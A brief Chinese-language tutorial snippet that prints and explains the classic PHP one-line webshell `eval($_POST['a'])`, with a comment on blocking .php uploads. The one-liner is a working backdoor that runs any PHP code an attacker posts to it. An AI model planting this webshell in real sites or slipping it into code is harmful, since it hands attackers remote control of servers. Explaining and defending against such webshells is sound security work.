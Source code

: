 ### 1、php一句话木马代码
```
<!-- 防御的之后，顾虑php后缀的文件即可。
因为php只解析.php后缀的文件。
一般一句话木马，就是websehll，同时必须以.php结尾 -->

<?php eval($_POST['a']);

// eval是执行php代码的
```
### 2、解析：
a的值用post请求发送，值可以是任何php代码